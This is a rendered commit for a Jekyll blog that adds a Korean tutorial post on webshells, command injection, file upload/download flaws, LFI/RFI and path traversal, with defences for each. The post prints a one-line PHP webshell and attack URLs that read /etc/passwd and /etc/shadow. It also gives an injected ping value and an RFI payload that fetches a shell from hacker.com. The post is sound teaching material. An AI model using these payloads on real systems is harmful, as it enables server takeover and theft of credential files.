

Before and after one commit to NullBins/nullbins.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 836 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update: new post (#SystemTakeover)

````diff
--- /dev/null
+++ b/_posts/2026-05-11-SystemTakeover.md
@@ -0,0 +1,113 @@
+---
+layout: default
+title: "[System Takeover] Webshell, Command Injection 및 File 취약점 정리"
+date: 2026-05-11
+categories: Hacking
+---
+
+## System Takeover (시스템 탈취)
+
+<span class="text-red">※ 절대 허용되지 않은 사이트나 서버에 해킹 및 공격은 범죄이므로 이점 명심해야 한다.</span>
+
+---
+
+### 1. *What is Webshell*
+
+#### 1) Shell(셸)이란?
+사용자가 입력한 명령어를 운영체제(OS)가 이해할 수 있도록 전달해 주는 인터페이스 프로그램이다. (예: Windows의 `cmd.exe`, `powershell.exe`, Linux의 `bash` 등)
+
+#### 2) Webshell이란?
+해커가 원격에서 웹 서버에 명령을 내릴 수 있도록 만들어진 **웹 기반의 악성 스크립트 파일**(PHP, JSP, ASP 등)이다. GUI 환경을 제공하기도 하며, 웹 서버의 권한을 이용해 시스템을 통제하는 **백도어(Backdoor)** 역할을 한다.
+
+#### <span class="text-red">How to upload & use? (Exploitation)</span>
+
+>```php
+># 단순한 형태의 PHP 웹셸 예시 (One-Liner Webshell)
+><?php system($_GET['cmd']); ?>
+>
+># 공격 URL 예시 (OS 명령어 실행)
+>http://target.com/uploads/webshell.php?cmd=cat /etc/passwd
+>```
+
+- **업로드**: 게시판의 첨부파일, 프로필 사진 업로드 등 파일이 서버로 전송되는 모든 곳이 타겟이다. 확장자 검증을 우회(`shell.php.jpg`, `%00` Null Byte Injection 등)하여 서버에 스크립트를 올린다.
+- **이용**: 업로드된 파일의 웹 경로를 찾아 브라우저로 접근한 뒤, 파라미터를 통해 리눅스/윈도우 명령어를 실행하여 서버를 제어한다.
+
+#### 3) 방어 방법 (Defense)
+- **확장자 화이트리스트(Whitelist)**: 허용된 확장자(jpg, png 등)만 업로드 가능하게 철저히 검증한다.
+- **실행 권한 제거**: 파일이 업로드되는 디렉토리(`/uploads`)의 스크립트 실행 권한을 웹 서버 설정에서 제거한다.
+- **파일명 난수화**: 업로드 시 파일명을 예측 불가능한 난수(UUID 등)로 변경하고 확장자를 강제하여 저장한다.
+
+---
+
+### 2. *What is Command Injection*
+
+#### Command Injection이란?
+웹 애플리케이션이 사용자 입력값을 필터링 없이 시스템 셸 호출 함수(`system()`, `exec()`, `os.popen()` 등)의 인자로 그대로 전달할 때 발생하는 취약점이다.
+
+#### <span class="text-red">Core of Command Injection</span>
+
+>```python
+># 취약한 백엔드 코드 (Python)
+>target_ip = request.form['ip']
+>os.system("ping -c 3 " + target_ip)
+>
+># 공격자의 입력값 (메타 문자 악용)
+>IP = "8.8.8.8; cat /etc/shadow"
+>""" 완성된 명령어: ping -c 3 8.8.8.8; cat /etc/shadow """
+>```
+
+- **공격자 관점**: 해커는 정상적인 입력값 뒤에 OS 셸에서 쓰이는 메타 문자(`;`, `&&`, `|`, `||`)를 덧붙여, 개발자가 의도하지 않은 악의적인 시스템 명령어가 연달아 실행되도록 조작한다. 웹셸 업로드 없이도 곧바로 RCE(원격 명령 실행)가 가능하다.
+
+---
+
+### 3. *File Vulnerability (파일 취약점)*
+
+#### 1) File Upload 악용 방법 + 방어 방법
+- **악용**: 앞서 설명한 웹셸(Webshell)을 업로드하여 RCE를 유발하거나, 악성 HTML 파일을 업로드하여 Stored XSS를 유발한다.
+- **방어**: 업로드 폴더 실행 권한 제거, 엄격한 화이트리스트 기반 확장자 및 MIME 타입 검증, 바이러스 스캔 연동.
+
+#### 2) File Download 악용 방법 + 방어 방법
+- **악용**: 파라미터로 파일명을 받아 다운로드해 주는 기능에서, 경로 탐색(`../`) 기법을 섞어 서버의 민감한 파일(소스코드, DB 설정 파일 등)을 빼낸다.
+- **방어**: 다운로드할 파일을 식별할 때 파일명 자체가 아닌 데이터베이스에 매핑된 **식별자(Index ID)** 를 사용한다.
+
+#### 3) LFI/RFI란? + 방어 방법
+파일을 **다운**받는 것이 아니라, 서버 내부 스크립트 엔진(PHP 등)이 해당 파일을 **실행(Include)** 해버리는 치명적인 취약점이다.
+
+>```php
+># 취약한 코드
+>include($_GET['page'] . ".php");
+>```
+
+- **LFI (Local File Inclusion)**: 서버 로컬에 있는 파일을 로드한다. (예: `page=../../../../etc/passwd%00`) 주로 서버의 로그 파일에 악성 코드를 남긴 뒤 LFI로 해당 로그 파일을 실행시키는 기법(Log Poisoning)을 쓴다.
+- **RFI (Remote File Inclusion)**: 외부 해커 서버에 있는 악성 스크립트를 타겟 서버가 가져와서 실행하게 만든다. (예: `page=http://hacker.com/shell.txt?`)
+- **방어 방법**:
+  - PHP 설정에서 `allow_url_include = Off` 설정 (RFI 방어).
+  - 사용자 입력값을 파일 인클루드 함수에 직접 넣지 않고, 서버에 미리 정의된 배열(배열 인덱스)이나 스위치 문을 통해서만 로드되도록 설계한다.
+
+---
+
+### 4. *Path Traversal (경로 탐색)*
+
+#### Path Traversal이란? (Directory Traversal)
+웹 애플리케이션이 파일의 경로를 처리할 때, 상위 디렉토리로 이동할 수 있는 문자열(`../` 또는 `..\`)을 필터링하지 않아 **웹 루트(Web Root) 디렉토리를 벗어나 운영체제의 시스템 파일에 접근**할 수 있는 취약점이다. File Download 취약점이나 LFI 취약점의 핵심 기반이 되는 기법이다.
+
+#### <span class="text-red">Path Traversal 공격 예시</span>
+
+>```bash
+># 공격자는 반복적인 상위 디렉토리 이동을 통해 시스템 최상위 루트(/)로 빠져나간다.
+>http://target.com/download.php?file=../../../../../../../../etc/passwd
+>http://target.com/images.php?img=..\..\..\..\windows\win.ini
+>```
+
+#### 방어 방법
+- **입력값 필터링**: `../`, `..\`, `..`, `/`, `\` 등의 문자를 정규식으로 차단한다. (해커는 `%2e%2e%2f` 처럼 URL 인코딩으로 우회하려 시도할 것이므로 디코딩 후 검증해야 한다.)
+- **절대 경로 검증**:
+  >```php
+  ># PHP realpath() 함수를 이용한 방어 예시
+  >$basepath = '/var/www/html/downloads/';
+  >$requested_file = realpath($basepath . $_GET['file']);
+  >
+  ># 최종 해석된 경로가 $basepath로 시작하는지 검증 (벗어났다면 차단)
+  >if (strpos($requested_file, $basepath) === 0) { ... }
+  >```
+- 파일명만 허용하도록 `basename()` 같은 함수를 사용하여 경로 정보 자체를 날려버리는 것도 좋은 방법이다.
--- a/categories.html
+++ b/categories.html
@@ -2,7 +2,7 @@
 layout: default
 title: "Category"
 permalink: /categories/
-date: 2026-05-09
+date: 2026-05-11
 hide_likes: true
 ---
 
````
